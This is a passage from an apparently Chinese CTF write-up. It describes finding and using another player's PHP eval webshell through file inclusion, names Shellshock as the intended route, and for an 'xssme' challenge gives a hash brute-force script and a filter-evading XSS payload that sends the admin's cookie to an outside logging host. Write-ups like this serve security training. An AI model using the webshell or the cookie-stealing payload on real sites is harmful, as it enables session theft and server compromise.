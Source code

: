 返回`ls.php`base64编码的源码，确定。

利用目录遍历找到前人的shell

![14](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/f891e0a78a40004e65acff86c4479bc8.png)

解码得`<?php eval($_POST[hp]);?>`

利用index.php的文件包含漏洞运行webshell读取文件，发现`/var/tmp`下基本都是前人搞到的`flag`，结束。

然后我就把shell和flag全删了（

正常的做法是利用CVE-2014-6271，太老了这漏洞完全没想到。可以参考[https://www.cnblogs.com/bmjoker/p/9537667.html](https://www.cnblogs.com/bmjoker/p/9537667.html)

### xssme

XSS的题目基本都会提示管理员会查看我们发的东西啥的，或者是给个类似给后台留言之类的功能，目标一般是盗窃管理员的cookie，比较难的就是要利用xss攻击只有管理员能访问的服务之类或者xss本身就很难（各种绕过，比如csp，浏览器的xss保护啥的）。

随便注册个账号，然后登录，给管理员发邮件。邮件内容可以XSS，可以通过已发送进行确认。

md5验证码简单写个脚本跑一下就行

```python
from hashlib import md5
from random import sample
import string
cst = string.ascii_letters+string.digits
while True:
    a = "84640dd03616a7d9"+''.join(sample(cst, 6))
    if md5(a).hexdigest()[:5] == "00000":
        print a[-6:]
        break
```

经过测试过滤了许多关键字

```text
Bad words found: ), }, <script, <video, <audio, <iframe, <frame, <link , eval, window., document.write, innerhtml,  onerror,  onabort,  onload,......一堆事件, new Function
```

然后各种姿势试了好久，网上别人做过成功的exp都拿来用了就是打不到cookie。最后分段才打到cookie。

```html
<img
onerror=location['href']='http://your.ceye.io/3?'+document['coo'+'kie'][0]++document['coo'+'kie'][1]+document['coo'+'kie'][2]+document['coo'+'kie'][3]+document['coo'+'kie'][4]+document['coo'+'kie'][5]+document['coo'+'kie'][6]+document['coo'+'kie'][7]+document['coo'+'kie'][8]+document['coo'+'kie'][9]+document['coo'+'kie'][10]+document['coo'+'kie'][11]+document['coo'+'kie'][12]+document['coo'+'kie'][13]+document['coo'+'kie'][14]+document['coo'+'kie'][15]+document['coo'+'kie'][16]+document['coo'+'kie'][17]+document['coo'+'kie'][18]+document['coo'+'kie'][19]+document['coo'+'kie'][20]+document['coo'+'kie'][21]+document['coo'+'kie'][22]+document['coo'+'kie'][23]+document['coo'+'kie'][24]+document['coo'+'kie'][25]+document['coo'+'kie'][26]+document['coo'+'kie'][27]+document['coo'+'kie'][28]+document['coo'+'kie'][29]+document['coo'+'kie'][30]+document['coo'+'kie'][31]+document['coo'+'kie'][32]+document['coo'+'kie'][33]+document['coo'+'kie'][34]+document['coo'+'kie'][35]+document['coo'+'kie'][36]+document['coo'+'kie'][37]+document['coo'+'kie'][38]+document['coo'+'kie'][39]+document['coo'+'kie'][40]+document['coo'+'kie'][41]+document['coo'+'kie'][42]+document['coo'+'kie'][43]+document['coo'+'kie'][44]+document['coo'+'kie'][45]+document['coo'+'kie'][46]+document['coo'+'kie'][47]+document['coo'+'kie'][48]+document['coo'+'kie'][49]+document['coo'+'kie'][50] src=1 />
```
